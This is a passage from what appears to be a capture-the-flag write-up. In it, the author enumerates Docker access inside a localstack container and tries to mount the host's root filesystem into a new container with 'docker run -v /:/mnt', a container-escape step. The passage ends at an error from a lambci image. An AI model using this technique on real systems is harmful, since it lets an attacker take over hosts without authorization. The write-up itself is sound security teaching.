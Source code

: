 ### Enumerate Docker

Because the container is spawning dockers, at least the root user must have access to the docker socket. As localstack, I could not access it because the user can’t read the certificate:

```

bash-5.0$ docker ps
WARNING: Error loading config file:/root/.docker/config.json - stat /root/.docker/config.json: permission denied
could not read CA certificate "/root/.docker/ca.pem": open /root/.docker/ca.pem: permission denied

```

root doesn’t have that issue:

```

bash-5.0# docker ps
CONTAINER ID        IMAGE                               COMMAND                  CREATED             STATUS              PORTS                                                                                                  NAMES
1af67837dbde        localstack/localstack-full:0.12.6   "docker-entrypoint.sh"   4 hours ago         Up 4 hours          127.0.0.1:443->443/tcp, 127.0.0.1:4566->4566/tcp, 127.0.0.1:4571->4571/tcp, 127.0.0.1:8080->8080/tcp   localstack_main

```

There are a handful of images available:

```

bash-5.0# docker image ls
REPOSITORY                   TAG                 IMAGE ID            CREATED             SIZE
localstack/localstack-full   0.12.6              7085b5de9f7c        5 weeks ago         888MB
localstack/localstack-full   <none>              0601ea177088        6 months ago        882MB
lambci/lambda                nodejs12.x          22a4ada8399c        6 months ago        390MB
lambci/lambda                nodejs10.x          db93be728e7b        6 months ago        385MB
lambci/lambda                nodejs8.10          5754fee26e6e        6 months ago        813MB

```

### Root Filesystem Access

I’ll try to start one of these containers with `-v /:/mnt` which will mount the root `/` to `/mnt` inside the container. For any of the `lambci/lambda` images, it complains about a “Bad handler”:

```

bash-5.0# docker run -v /:/mnt -it 22a4ada8399c   
2021-08-25T21:16:17.809Z        undefined       ERROR   Uncaught Exception      {"errorType":"Runtime.MalformedHandlerName","errorMessage":"Bad handler","stack":["Runtime.MalformedHandlerName: Bad handler","    at _splitHandlerString (/var/runtime/UserFunction.js:43:11)","    at Object.module.exports.load (/var/runtime/UserFunction.js:138:31)","    at Object.<anonymous> (/var/runtime/index.js:43:30)","    at Module._compile (internal/modules/cjs/loader.js:999:30)","    at Object.Module._extensions..js (internal/modules/cjs/loader.js:1027:10)","    at Module.load (internal/modules/cjs/loader.js:863:32)","    at Function.Module._load (internal/modules/cjs/loader.js:708:14)","    at Function.executeUserEntryPoint [as runMain] (internal/modules/run_main.js:60:12)","    at internal/main/run_main_module.js:17:47"]}
START RequestId: 6be74fdd-4b12-1b15-49ba-b6f083015ffe Version: $LATEST
END RequestId: 6be74fdd-4b12-1b15-49ba-b6f083015ffe
REPORT RequestId: 6be74fdd-4b12-1b15-49ba-b6f083015ffe  Init Duration: 122.15 ms        Duration: 1.88 ms       Billed Duration: 2 ms   Memory Size: 1536 MB    Max Memory Used: 40 MB

{"errorType":"Runtime.MalformedHandlerName","errorMessage":"Bad handler"}

```
